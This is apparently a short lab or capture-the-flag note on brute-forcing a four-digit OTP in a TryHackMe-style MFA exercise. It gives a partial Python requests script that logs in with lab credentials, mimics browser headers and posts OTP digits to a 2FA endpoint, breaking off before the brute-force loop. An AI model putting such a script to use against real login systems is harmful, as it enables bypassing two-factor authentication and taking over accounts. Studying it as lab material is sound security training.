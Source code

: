 ## Brute Force OTP
- Depending on the applications, we can write a Python script to brutefore the OTP
- Here is an example of what the script looks like

```python
import requests

# Define the URLs for the login, 2FA process, and dashboard
login_url = 'http://mfa.thm/labs/third/'
otp_url = 'http://mfa.thm/labs/third/mfa'
dashboard_url = 'http://mfa.thm/labs/third/dashboard'

# Define login credentials
credentials = {
    'email': 'thm@mail.thm',
    'password': 'test123'
}

# Define the headers to mimic a real browser
headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://mfa.thm',
    'Connection': 'close',
    'Referer': 'http://mfa.thm/labs/third/mfa',
    'Upgrade-Insecure-Requests': '1'
}

# Function to check if the response contains the login page
def is_login_successful(response):
    return "User Verification" in response.text and response.status_code == 200

# Function to handle the login process
def login(session):
    response = session.post(login_url, data=credentials, headers=headers)
    return response
  
# Function to handle the 2FA process
def submit_otp(session, otp):
    # Split the OTP into individual digits
    otp_data = {
        'code-1': otp[0],
        'code-2': otp[1],
        'code-3': otp[2],
        'code-4': otp[3]
    }
    
    response = session.post(otp_url, data=otp_data, headers=headers, allow_redirects=False)  # Disable auto redirects
    print(f"DEBUG: OTP submission response status code: {response.status_code}")
    
    return response

# Function to check if the response contains the login page
def is_login_page(response):
    return "Sign in to your account" in response.text or "Login" in response.text

# Function to attempt login and submit the hardcoded OTP until success
def try_until_success():
```